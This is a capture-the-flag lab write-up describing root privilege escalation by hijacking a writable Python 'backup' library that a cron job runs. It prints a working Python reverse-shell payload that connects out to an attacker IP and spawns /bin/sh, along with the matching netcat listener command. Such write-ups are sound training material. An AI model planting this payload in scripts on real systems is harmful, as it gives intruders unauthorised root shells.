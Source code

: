 You've found the website of a web designer, you know, the kind of guy that tells you "You can't hack me, and even if you do, what's the point?". It might be a good target to practice your pentesting skills!

> There are two flags in this challenge, the first one is located in the home directory of the user, the second one is in the root directory.

Creator: Magnussen

## Enumeration<a name="Enumeration2"></a>

As i seen before in pspy, there is a cron task which execute a python library named "backup".

> ![](https://i.imgur.com/JTM7gJH.png)

I was thinking it was a possible python library hijacking privesc. First i searched a bit on google and didn't see this library, so it was maybe a custom library.

So i searched for this library inside the box. And i find it inside "/etc/python2.7/".

> ![](https://i.imgur.com/qUwZXjf.png)

I have the write access on the script "backup.py", now i can exploit the python hijacking library.

## Privilege Escalation<a name="PrivEsc2"></a>

### Escalate from git user to root<a name="git2root"></a>

I edit the "backup.py" script with "nano" and add the following code.

```
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.30.0.14", 9000))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

I start a netcat listener into my kali with the command `nc -nvlp 9000`

Waiting a bit for the cron task to be executed, and i get a root shell back into my listener.

> ![](https://i.imgur.com/GuP9jDN.png)




## FLAG<a name="Flag2"></a>

> ![](https://i.imgur.com/QOL1vT1.png)
